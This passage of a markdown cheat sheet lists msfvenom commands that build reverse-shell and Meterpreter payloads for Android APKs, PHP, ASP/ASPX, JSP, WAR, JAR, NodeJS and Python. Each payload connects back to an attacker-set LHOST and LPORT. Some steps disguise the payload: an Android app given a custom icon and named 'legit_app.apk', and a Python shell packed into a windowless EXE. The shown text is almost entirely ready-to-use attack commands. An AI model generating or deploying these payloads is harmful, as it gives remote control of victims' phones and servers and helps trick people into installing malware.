 ### Android
```bash
# Android APK Payload
msfvenom -p android/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -o payload.apk

# Android with custom icon
msfvenom -p android/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} --icon /path/to/icon.png -o legit_app.apk
```

---

## 🌐 Web Payloads

### PHP
```bash
# Basic PHP Reverse Shell
msfvenom -p php/reverse_php LHOST={LHOST} LPORT={LPORT} -f raw > shell.php

# PHP Meterpreter
msfvenom -p php/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > meterpreter.php
```

### ASP/ASPX
```bash
# Classic ASP
msfvenom -p windows/shell/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f asp > shell.asp

# ASP.NET (ASPX)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f aspx > shell.aspx
```

### Java
```bash
# JSP Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.jsp

# WAR File (Web Archive)
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f war > shell.war

# Java JAR
msfvenom -p java/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f jar > shell.jar
```

### NodeJS
```bash
# NodeJS Reverse Shell
msfvenom -p nodejs/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.js
```

### Python
```bash
# Python Reverse Shell
msfvenom -p python/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.py

# Convert Python to EXE (requires PyInstaller)
pyinstaller --onefile --noconsole shell.py
```

---